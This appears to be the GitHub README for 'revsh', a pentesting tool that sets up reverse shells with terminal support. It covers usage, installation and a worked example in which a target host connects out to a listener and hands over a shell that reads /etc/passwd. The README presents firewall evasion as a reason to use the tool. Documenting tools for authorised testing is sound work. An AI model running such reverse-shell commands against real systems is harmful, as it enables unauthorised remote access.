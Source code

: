 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Shellcode#Remote) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A [reverse shell](http://www.sans.edu/student-files/presentations/LVReverseShell.pdf) is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features in a small (~20k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed and tested on Linux x86_64. It hasn't been tested on other platforms, but it should port reasonably easily.

## Usage ##

	usage: revsh [-l [-e ENV_ARGS] [-s SHELL]] ADDRESS PORT

		-l: Setup a listener.
		-e ENV_ARGS: Export ENV_ARGS to the remote shell. (Default is "TERM".)
		-s SHELL: Invoke SHELL as the remote shell. (Default is /bin/bash.)

		Note: '-e' and '-s' only work with a listener.

## Example ##

First, setup the listener on the local host:

	empty@monkey:~$ revsh -l 192.168.0.42 9999

Then connect out from the remote host:

	target@kitty:~$ ./revsh 192.168.0.42 9999
	
We will now find a shell waiting for us back at the listener:

	empty@monkey:~$ revsh -l 192.168.0.42 9999
	Listening...	Connected!
	Initializing...	Done!
	################################
	# hostname: kitty
	# ip address: 192.168.0.6
	# username: target
	################################
	target@kitty:/$ ls -l /etc/passwd 
	-rw-r--r-- 1 root root 1375 Jul  2 10:24 /etc/passwd

## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	make

## Updates / Feature Additions ##

* Added support for UTF-8.
* Added support for a ~/.revsh/rc file. (Executes commands from the local file on the remote machine upon login.)

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

